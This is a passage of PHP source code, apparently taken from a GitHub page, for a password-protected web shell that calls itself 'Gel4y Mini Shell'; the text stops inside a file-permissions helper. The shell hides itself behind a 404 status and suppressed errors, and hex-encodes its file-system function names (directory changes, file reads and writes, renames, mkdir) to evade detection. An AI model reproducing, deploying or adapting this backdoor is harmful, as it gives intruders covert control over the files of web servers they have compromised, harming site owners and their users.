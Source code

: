 <?php
error_reporting(0);
http_response_code(404);
$auth_key = "1cffbfc336795a4f0b273658c1680c40a2f36a74";
$pass = false;
if (isset($_COOKIE['pass'])) { 
	if(sha1($_COOKIE['pass']."#&gyg&2a^") == $auth_key) { 
		$pass = true; 
	}
} else { 
	if (isset($_POST['pass'])) { 
		if(sha1($_POST['pass']."#&gyg&2a^") == $auth_key) { 
			setcookie("pass", $_POST['pass']); 
			$pass = true; 
		} 
	} 
}
if (!$pass) { 
	echo '<form action="" method="post"><input type="password" name="pass" > <input type="submit" value="submit"></form>'; 
	die(); 
}
define("self", "G\x65l\64y M\x69n\x69 Sh\x65ll");
$scD = "s\x63\x61\x6e\x64\x69r";
$fc = array("7068705f756e616d65", "70687076657273696f6e", "676574637764", "6368646972", "707265675f73706c6974", "61727261795f64696666", "69735f646972", "69735f66696c65", "69735f7772697461626c65", "69735f7265616461626c65", "66696c6573697a65", "636f7079", "66696c655f657869737473", "66696c655f7075745f636f6e74656e7473", "66696c655f6765745f636f6e74656e7473", "6d6b646972", "72656e616d65", "737472746f74696d65", "68746d6c7370656369616c6368617273", "64617465", "66696c656d74696d65");
for ($i = 0; $i < count($fc); $i++) {
	$fc[$i] = nhx($fc[$i]);
}
if (isset($_GET["p"])) {
	$p = nhx($_GET["p"]);
	$fc[3](nhx($_GET["p"]));
} else {
	$p = $fc[2]();
}
function hex($str) {
	$r = "";
	for ($i = 0; $i < strlen($str); $i++) {
		$r .= dechex(ord($str[$i]));
	}
	return $r;
}
function nhx($str) {
	$r = "";
	$len = (strlen($str) -1);
	for ($i = 0; $i < $len; $i += 2) {
		$r .= chr(hexdec($str[$i].$str[$i+1]));
	}
	return $r;
}
function perms($f) {
	$p = fileperms($f);
	if (($p & 0xC000) == 0xC000) {
		$i = 's';
	} elseif (($p & 0xA000) == 0xA000) {
		$i = 'l';
	} elseif (($p & 0x8000) == 0x8000) {
		$i = '-';
	} elseif (($p & 0x6000) == 0x6000) {
		$i = 'b';
	} elseif (($p & 0x4000) == 0x4000) {